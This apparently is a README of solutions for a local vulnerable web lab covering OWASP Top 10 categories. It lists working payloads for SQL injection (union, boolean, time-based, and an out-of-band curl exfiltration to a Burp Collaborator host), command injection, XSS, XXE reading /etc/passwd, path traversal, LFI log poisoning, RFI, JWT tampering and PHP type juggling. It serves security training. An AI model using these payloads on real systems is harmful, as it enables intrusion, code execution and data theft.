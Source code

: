 # Lab-solutions
Lab solutions

## Open redirect(BAC)
http://127.0.0.1/bac/openr/index.php?redirect=yoursite<\br>

## IDOR
Login to account using username & password<\br>
http://127.0.0.1/bac/idor/home.php?acnumber=2233445577  change acnumber value to 2233445566(vertical privesc) to 2233445588(horizantol)<\br>

## Cryptographic failure
Fuzz the site<\br>
http://127.0.0.1/crypt/FUZZ  you will get secret.db file download it & open it with sqlieditor crack the password using crackstation.net & log in to admin<\br>

## Injections
### command
use ; semicolon with ip ex: 127.0.0.1;whoami<\br>

### SQLI(put a single quote in ID it returns SQLI error message)
version extract using error based sqli<\br>
1'or 1=1 in (LEFT(version(), 1) = '1')#    - first char 1 in version it returns all columns data<\br>
1'or 1=1 in (LEFT(version(), 2) = '10')#   - second char 10 in version it returns all columns data<\br>
1'or 1=1 in (LEFT(version(), 3) = '10.')#  - third char 10. in version it returns all columns data<\br>
so the version number is 10. so on<\br>

### Union
order by to guess columns<\br>
1' order by 3#  upto 3 no errors after 3 error means total columns are 3<\br>

### union query to extract data from columns
1'union select null,@@version,null #  getting version<\br>
1'union select null,schema_name,null from information_schema.schemata#   -extract databases<\br>
1'union select null,table_name,null from information_schema.tables where table_schema='databasenamefromabove'#  -extract tablenames<\br>
1'union select null,column_name,null from information_schema.columns where table_schema='databasenamefromabove' and table_name='table_namefromabove'#    <\br>
1'union select null,column_name_extractdata,null from tablename#  - get datafrom a specific column

### Boolean(no errors -data disappear based true false condition)
1'and if (1=1, (LEFT(version(), 1) = '1'), 'false')#  -first char is 1 and data  appear<\br>
1'and if (1=1, (LEFT(version(), 2) = '10'), 'false')#  - second char is 0 and data appear<\br>
so the version is 10<\br>

### delay
1' or sleep(5)#<\br>

### OOB sqli
';COPY (SELECT version()) TO PROGRAM 'curl -G burpcollaborator?data=$(cat)'--   you will receive data on your burpcollaborator<\br>

## XSS
### Rxss
<script>alert(123)</script><\br>
### Sxss
<script>alert(123)</script><\br>
### DOM
http://127.0.0.1/inject/xss/dom.html?default=<script>alert(123)</script><\br>
### BLind
submit your comment payload(<script>alert(123)</script>) on comments page login to admin panel it will trigger xss<\br>
use a cookie stealing payload to steal admin cookie

## Insecure design
go to reset password page & use username admin & bruteforce the OTP it will give a password & login to admin account<\br>

## Security misconfiguration
create  a .xml file & add below data then upload it the portal you can see /etc/passwd file contents<\br>
*** <!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]>
<root>
&test;
</root>
***

## Vulnerable & outdated components
Fuzz the files & you will find admin endpoint with login page<\br>
http://127.0.0.1/wbce/admin/login/  - use admin/password deault creds to login its wbce vulnerable version. exploit it and gain code execution<\br>

## identification & Authentication failure
its a input type juggling vulnerability in php<\br>
capture login request just replace password= value in body to password[]=randomvalue  you can login to admin account<\br>

## software & data integrity failure
login to user account with details on login portal<\br>
then you can see JWT on request & response header. just decode it and replace username with admin. encode the JWT & submit. you can all admin data<\br>

## Security logging & monitoring
Fuzz for log files you will find access.log file & and the attack is bruteforce you can check logs<\br>


## SSRF
http://127.0.0.1/ssrf/index.php?page=burpcollaborator  you can get a dummy secret Authorization header<\br>

## Path traversal
http://127.0.0.1/pathtr/index.php?page=../../../../../../etc/passwd<\br>

## File inclusion
### LFI
http://127.0.0.1/fileinc/index.php?page=../../../../../var/log/apache2/access.log     - you can access log file. perform log poison to get code exection<\br>
then submit your php system function payload using Useragent & access it over access.log and your parameter. you will code execution.<\br>

### RFI
host your own server with a php system function based payload and access it through page parameter<\br>
http://127.0.0.1/fileinc/index.php?page=http://yourserver/code.php   - it will execute the code.php file & show output on screen<\br>
